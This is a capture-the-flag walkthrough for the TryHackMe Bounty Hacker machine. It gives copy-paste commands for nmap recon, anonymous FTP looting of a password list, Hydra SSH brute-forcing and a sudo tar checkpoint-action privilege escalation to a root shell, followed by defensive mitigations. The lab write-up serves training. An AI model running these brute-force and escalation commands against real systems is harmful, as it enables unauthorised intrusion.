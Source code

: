 # Bounty Hacker — Consolidated Walkthrough

> **Difficulty:** Easy → Medium  
> **Platform:** Linux / Web / Privilege Escalation  
> **Goal:** Capture `user` and `root` flags on the TryHackMe *Bounty Hacker* machine.

---

## Table of Contents

1. [Summary](#summary)
2. [High-level Attack Flow](#high-level-attack-flow)
3. [Prereqs & Tools](#prereqs--tools)
4. [Step-by-step Walkthrough](#step-by-step-walkthrough)
    - [1 — Recon (nmap)](#1---recon-nmap)
    - [2 — Anonymous FTP & files (locks.txt / task.txt)](#2---anonymous-ftp--files-lockstxt--tasktxt)
    - [3 — Web enumeration](#3---web-enumeration)
    - [4 — SSH brute-force using harvested credentials](#4---ssh-brute-force-using-harvested-credentials)
    - [5 — Low-privilege enumeration on shell](#5---low-privilege-enumeration-on-shell)
    - [6 — Privilege escalation via `tar` (GTFOBins pattern)](#6---privilege-escalation-via-tar-gtfobins-pattern)
5. [Cheat-sheet — Commands (copy/paste)](#cheat-sheet---commands-copypaste)
6. [Defensive Notes & Mitigations](#defensive-notes--mitigations)
7. [References](#references)

---

## Summary

This box is a classic beginner-friendly ADJ (web + service) challenge:  
- Discover **anonymous FTP** containing a password list (`locks.txt`) and task hints.  
- Use those passwords to brute-force SSH (Hydra) against discovered usernames.  
- Log in as a low-privilege user, then escalate to root using an allowed `sudo tar` command and a well-known [GTFOBins](https://gtfobins.github.io/) exploitation technique.

---

## High-level Attack Flow

1. **nmap** → Find services (FTP, SSH, HTTP).
2. Connect to **anonymous FTP**, download `locks.txt` and `task.txt`.
3. Enumerate web app, build username list from site content and `task.txt`.
4. Use **hydra** to brute-force SSH usernames with `locks.txt`. Obtain valid user creds.
5. SSH in, run `sudo -l` and enumerate; discover `sudo` allowed for `tar`.
6. Exploit `tar` via GTFOBins technique to spawn root shell and capture `/root/root.txt`.

---

## Prereqs & Tools

- **Attacker box:** Kali / Parrot / Ubuntu
- **Tools:**  
  `nmap`, `ftp`/`lftp`/`curl`, `gobuster` (optional), `hydra` (or `medusa` / `patator`), `ssh`, `socat`/`nc`, `python3` for simple shells, [GTFOBins](https://gtfobins.github.io/) as reference.
- **Wordlists:**  
  `locks.txt` (from FTP), `rockyou.txt` (if needed), small user lists.

---

## Step-by-step Walkthrough

### 1 — Recon (nmap)

Scan for open ports and services:

```bash
nmap -sC -sV -p- -T4 -oA bounty_nmap <TARGET_IP>
```

Look for:
- `21/tcp` — FTP (anonymous likely allowed)
- `22/tcp` — SSH
- `80/tcp` — Web server / info page

---

### 2 — Anonymous FTP & files (locks.txt / task.txt)

Connect to FTP anonymously and list files:

```bash
ftp <TARGET_IP>
# or
ncftpls ftp://<TARGET_IP>/
```

Download the interesting files:

```bash
get locks.txt
get task.txt
```

---

### 3 — Web enumeration

Visit the web page (`http://<TARGET_IP>/`) for candidate usernames.  
Optionally, use `gobuster` to check for hidden paths:

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,html,txt
```

Build `users.txt` from names found on the page and in `task.txt`.

---

### 4 — SSH brute-force using harvested credentials

Brute-force SSH using the password and username lists:

```bash
hydra -L users.txt -P locks.txt ssh://<TARGET_IP> -t 4 -f
```

Hydra will report valid credentials when found.

> **Tip:** Try manual combos from `task.txt` if brute-force is slow.

---

### 5 — Low-privilege enumeration on shell

SSH in with discovered credentials:

```bash
ssh user@<TARGET_IP>
```

Check environment and sudo permissions:

```bash
id
whoami
pwd
ls -la
sudo -l
ps aux
cat /etc/passwd
```

`sudo -l` should show `/usr/bin/tar` allowed as root (NOPASSWD).

---

### 6 — Privilege escalation via `tar` (GTFOBins pattern)

Exploit `tar` for root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

After root shell:

```bash
whoami
cat /root/root.txt
```

---

## Cheat-sheet — Commands (copy/paste)

```bash
# Recon
nmap -sC -sV -p- -T4 -oA bounty_nmap <TARGET_IP>

# FTP (anonymous)
ftp <TARGET_IP>
# username: anonymous  password: <press Enter>
get locks.txt
get task.txt

# Web enumeration (optional)
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,html,txt

# Bruteforce SSH with hydra
hydra -L users.txt -P locks.txt ssh://<TARGET_IP> -t 4 -f

# SSH to target
ssh user@<TARGET_IP>

# On shell: check sudo allowed commands
sudo -l

# If tar is allowed:
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# After root shell:
whoami
cat /root/root.txt
```

---

## Defensive Notes & Mitigations

- **Disable anonymous FTP** or restrict it to safe directories. Remove credential lists.
- **Limit `sudo` usage:** Avoid `NOPASSWD` for powerful binaries. Use wrappers and audit `sudoers`.
- **Harden SSH:** Rate-limit, block brute-force, use key-based auth, monitor failed attempts.
- **File hygiene:** Never store passwords in plaintext on network services.
- **Monitor for suspicious `tar`/GTFOBins usage:** Alert on `--checkpoint-action` or unusual invocations.

---

